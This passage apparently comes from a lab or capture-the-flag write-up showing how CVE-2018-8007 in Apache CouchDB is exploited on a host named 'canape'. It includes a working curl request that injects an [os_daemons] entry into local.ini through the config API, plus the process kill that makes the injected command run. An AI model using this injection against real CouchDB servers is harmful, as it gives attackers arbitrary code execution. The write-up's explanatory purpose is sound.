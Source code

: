 First, the environment is prepared by ensuring the `local.ini` file is writable, verified by listing the permissions:

```bash
root@canape:/home/homer/etc# ls -l
-r--r--r-- 1 homer homer 18477 Jan 20  2018 default.ini
-rw-rw-rw- 1 homer homer  4841 Sep 14 17:39 local.ini
-r--r--r-- 1 root  root   4841 Sep 14 14:30 local.ini.bk
-r--r--r-- 1 homer homer  1345 Jan 14  2018 vm.args
```

To exploit the vulnerability, a curl command is executed, targeting the `cors/origins` configuration in `local.ini`. This injects a new origin along with additional commands under the `[os_daemons]` section, aiming to execute arbitrary code:

```bash
www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/cors/origins' -H "Accept: application/json" -H "Content-Type: application/json" -d "0xdf\n\n[os_daemons]\ntestdaemon = /usr/bin/touch /tmp/0xdf"
```

Subsequent verification shows the injected configuration in `local.ini`, contrasting it with a backup to highlight the changes:

```bash
root@canape:/home/homer/etc# diff local.ini local.ini.bk
119,124d118
< [cors]
< origins = 0xdf
< [os_daemons]
< test_daemon = /usr/bin/touch /tmp/0xdf
```

Initially, the expected file (`/tmp/0xdf`) does not exist, indicating that the injected command has not been executed yet. Further investigation reveals that processes related to CouchDB are running, including one that could potentially execute the injected command:

```bash
root@canape:/home/homer/bin# ps aux | grep couch
```

By terminating the identified CouchDB process and allowing the system to automatically restart it, the execution of the injected command is triggered, confirmed by the existence of the previously missing file:

```bash
root@canape:/home/homer/etc# kill 711
root@canape:/home/homer/etc# ls /tmp/0xdf
/tmp/0xdf
```

This exploration confirms the viability of CVE-2018-8007 exploitation under specific conditions, notably the requirement for writable access to the `local.ini` file. The provided code examples and procedural steps offer a clear guide for replicating the exploit in a controlled environment.

For more details on CVE-2018-8007, refer to the advisory by mdsec: [CVE-2018-8007](https://www.mdsec.co.uk/2018/08/advisory-cve-2018-8007-apache-couchdb-remote-code-execution/).
